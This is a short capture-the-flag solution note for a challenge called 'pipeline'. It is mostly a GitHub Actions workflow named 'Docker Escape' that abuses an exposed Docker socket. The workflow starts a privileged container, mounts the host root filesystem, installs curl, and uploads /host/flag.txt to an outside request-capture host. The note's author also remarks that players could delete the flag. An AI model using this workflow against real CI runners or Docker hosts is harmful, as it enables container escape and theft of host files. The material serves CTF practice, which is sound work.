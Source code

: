 # pipeline

Basically create a github workflow which uses the exposed docker socket to bind a host mount and leak the flag. It is possible for users to shell the filesystem and delete flag. I'm not going to make much effort to prevent this, but we can police it ourselves. I'll give the players a separate instances than the open ctf.

```yml
name: Docker Escape

on:
  push:
    branches:
      - main

jobs:
  docker-ps:
    runs-on: ubuntu-latest
    container:
      image: docker:latest
      options: --privileged
    steps:
      - name: Cleanup Alpine container
        run: docker rm -f alpine-host-mount
      - name: Show running containers
        run: docker ps
      - name: Start Alpine container with host mount
        run: |
          docker run -d --name alpine-host-mount -v /:/host:ro alpine sleep infinity
      - name: Install curl
        run: docker exec alpine-host-mount apk add curl
      - name: Exfiltrate the flag
        run: docker exec alpine-host-mount curl -T /host/flag.txt pjfcskdw.requestrepo.com
      - name: Cleanup Alpine container
        run: docker rm -f alpine-host-mount

```